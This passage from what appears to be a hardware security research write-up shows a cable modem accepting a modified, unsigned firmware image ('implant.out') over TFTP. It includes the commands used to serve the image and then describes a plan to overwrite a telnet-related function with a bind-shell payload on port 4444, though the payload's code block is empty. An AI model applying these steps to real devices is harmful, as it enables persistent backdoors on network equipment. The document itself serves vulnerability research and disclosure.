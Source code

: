 Board TFTP Server IP Address [192.168.100.10]:  
Enter filename [TCG300-D22F.EG00.15.01.OBE.01.05.06-E-161110.bin]: implant.out

Destination: a4000000
Starting TFTP of implant.out from 192.168.100.10
Getting implant.out using octet mode
--snip--
Tftp complete
Received 5438437 bytes

Image 3 Program Header:
   Signature: 3350
     Control: 0005
   Major Rev: 0000
   Minor Rev: 0000
  Build Time: 2021/2/15 12:51:41 Z
 File Length: 5438345 bytes
Load Address: 80004000
    Filename: implant.out
         HCS: 6bdd
         CRC: e4468dd6

WARNING: Signatures do not match!  This may be a bad image!
Image sig = 3350, PID = d22f

Store parameters to flash? [n] n 

--device boots up normally--
{% endhighlight %}

To serve the file, you can use [ptftpd](https://pypi.org/project/ptftpd/):

{% highlight sh %}
sudo iptables -t nat -A PREROUTING -p udp -d 192.168.100.10 --dport 69 -s 192.168.100.1 -j REDIRECT --to-ports 6969
ptftpd -v -p 6969 eno1 `pwd`
{% endhighlight %}

The device boots normally, our changed string is visible, this means that neither the bootloader or the operating system enforce firmware authenticity checks or secure boot.

We can move on and try to insert an actual backdoor into the firmware.


### Arbitrary Code Injection

I identified one interesting function that I had renamed 'StartupServer'. This function performs some operations related to remote console access via telnet, but is not crucial to the device operation. 

The function spans from offset *0x805f4434* to *0x805f4b28*, and the idea will be to overwrite that section with our own custom payload.

The payload I designed will launch a thread named 'payload', exposing a bind shell on port 4444:

{% highlight c %}


{% endhighlight %}
